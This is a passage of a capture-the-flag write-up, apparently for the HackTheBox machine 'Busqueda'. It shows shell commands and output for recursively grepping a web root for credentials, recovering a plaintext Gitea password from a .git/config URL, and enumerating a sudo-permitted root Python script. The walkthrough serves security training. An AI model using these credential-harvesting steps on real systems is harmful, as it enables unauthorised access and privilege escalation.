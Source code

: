 We found the subdomain `gitea.searcher.htb` which probably is running gitea. Let's add that to `/etc/hosts` ang navigate to the web page.

![](8.png)

We found two users `cody` and `administrator`, but there are no publicly listed repositories.

Trying to search for credentials of Gitea I used `grep` recursively to search for `cody` using the following command:

```bash
svc@busqueda:/var/www$ grep -Ri cody ./ 2>/dev/null
./app/.git/config:      url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
```

With that I managed to find `cody`'s password. Let's login

![](9.png)

We found `searcher`'s repository, nothing interesting.

Let's check our privileges using the `cody`'s password:

```shell
Matching Defaults entries for svc on busqueda:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
```

We can run a python script as root.

```shell
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py *
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup
```

There couple options we can run with the script, the first is `docker-ps`:

```shell
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps
CONTAINER ID   IMAGE                COMMAND                  CREATED        STATUS             PORTS                                             NAMES
960873171e2e   gitea/gitea:latest   "/usr/bin/entrypoint…"   7 months ago   Up About an hour   127.0.0.1:3000->3000/tcp, 127.0.0.1:222->22/tcp   gitea
f84a6b33fb5a   mysql:8              "docker-entrypoint.s…"   7 months ago   Up About an hour   127.0.0.1:3306->3306/tcp, 33060/tcp               mysql_db
```

This list the running docker containers.
